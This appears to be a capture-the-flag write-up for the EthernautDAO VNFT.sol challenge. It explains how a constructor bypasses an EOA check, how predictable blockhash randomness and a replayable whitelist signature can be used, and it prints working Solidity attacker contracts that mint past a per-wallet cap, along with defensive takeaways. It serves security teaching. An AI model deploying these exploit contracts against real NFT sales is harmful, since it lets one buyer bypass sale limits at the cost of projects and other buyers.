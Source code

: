 # Solidity challenge VNFT.sol

## The objective

[VNFT.sol](https://goerli.etherscan.io/address/0xc357c220d9ffe0c23282fcc300627f14d9b6314c) is a ERC721 contract. The sale is capped at 2 tokens per wallet -- the goal is to exploit the sale by minting more than the allowed 2 NFTs per wallet, all in a single transaction, see corresponding [tweet](https://twitter.com/EthernautDAO/status/1561352425394515968).

## Overview

There are two functions to mint NFTs:

- function imFeelingLucky(address to, uint256 qty, uint256 number)
- function whitelistMint(address to, uint256 qty, bytes32 hash, bytes memory signature)

Both functions expect an address to mint and a quantity. `imFeelingLucky` additionally expects a number, while `whitelistMint` expects a hash and a signature.

Inspecting `imFeelingLucky` shows that it calculates a random number based on the blockhash, the block timestamp and the totalSupply:

```solidity
uint256 randomNumber = uint256(
    keccak256(
        abi.encodePacked(
            blockhash(block.number - 1),
            block.timestamp,
            totalSupply
        )
    )
) % 100;

require(randomNumber == number, "Better luck next time!");
```

The modulo division sets the range of the random number from 0 to 99. The random number is compared with function input `number`, if its the same, it will allow minting tokens.

Function `whitelistMint` only allows whitelisted wallets to mint, it does that by requiring a signature signed by the owner of the contract:

```solidity
require(
    recoverSigner(hash, signature) == owner(),
    "Address is not allowlisted"
);
```

## Vulnerability

Both functions have a vulnerability.

### imFeelingLucky

```
require((msg.sender).code.length == 0, "Only EOA allowed");
```

Above require statement ensures that only EOAs (externally owned accounts) are allowed to mint by checking that the code length of `msg.sender` is equal to zero. You can circumvent that check by including the necessary code in the constructor of your contract -- the code size of a smart contract at creation (so when the code in the constructor is executed) **is zero**:

```solidity
contract Attacker {
  constructor(address EOA, address vnft) {
    uint256 currentId = IVNFT(vnft).totalSupply();

    uint256 randomNumber = uint256(
      keccak256(
        abi.encodePacked(
          blockhash(block.number - 1),
          block.timestamp,
          currentId
        )
      )
    ) % 100;

    IVNFT(vnft).imFeelingLucky(address(this), 2, randomNumber);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

    selfdestruct(payable(EOA));
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes calldata
  ) external virtual returns (bytes4) {
    return ERC721TokenReceiver.onERC721Received.selector;
  }
}

```

Above contract calculates the random number, mints 2 NFTs via `imFeelingLucky` and sends them to specified address. Function `onERC721Received` is needed because contract `VNFT.sol` uses `safeMint` for minting tokens.

### whitelistMint

As described, only whitelisted wallets can successfully mint by requiring a hash + signature signed by the owner. Usually you keep track of used signatures by saving them in an array and only allowing new signatures to be processed:

```solidity
require(!usedSignatures[signature], "Signature already used!");
...
usedSignatures[signature] = true;
```

This check is missing, allowing a signature replay attack

```solidity
constructor(
  address EOA,
  address vnft,
  bytes32 hash,
  bytes memory signature
) {
  uint256 currentId = IVNFT(vnft).totalSupply();

  IVNFT(vnft).whitelistMint(address(this), 2, hash, signature);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

  selfdestruct(payable(EOA));
}

```

Simply use a prior used signature to circumvent the whitelist check.

### Exploit in a single transaction

To exploit the sale by minting more than the 2 allowed tokens in a single transaction you have to write an attacker contract, which deploys several minting contracts, executing your exploit logic.

```solidity
function attack(address EOA) public {
  // deploy 5 smart contracts, each one is minting 2 nfts and sending those to address EOA
  for (uint256 i; i < 5; i++) new Attacker(EOA, address(vnft));

  // check if 10 NFTs were minted, if not, something went wrong
  require(vnft.balanceOf(EOA) == 10);
}

```

## Takeaways

- `require((msg.sender).code.length == 0` wont stop smart contracts from calling and executing a function, since code length during contract creation is zero
- Random numbers arent really random, since everything on the EVM is deterministic
- Keep track of used signatures to prevent signature replay attacks

## Further information

- [VNFT.t.sol](../test/VNFT.t.sol) for a test script exploiting the contract
- [Implementation](https://goerli.etherscan.io/address/0x85811aa24f3f75c8cfd07aa3fab7e6d20e3b29f7#code) from adriro
- [Implementation](https://github.com/JonathanAmenechi/ethernaut-challenges/blob/main/src/Exploit9.sol) from jon_amen

This exploit is inspired from the adidas NFT mint, which got exploited in a similiar way, where one user minted 328 more tokens than allowed, see [this](https://cryptonews.com/news/investor-purchases-330-adidas-nfts-using-smart-contract-328-more-than-cap.htm) link for more info.
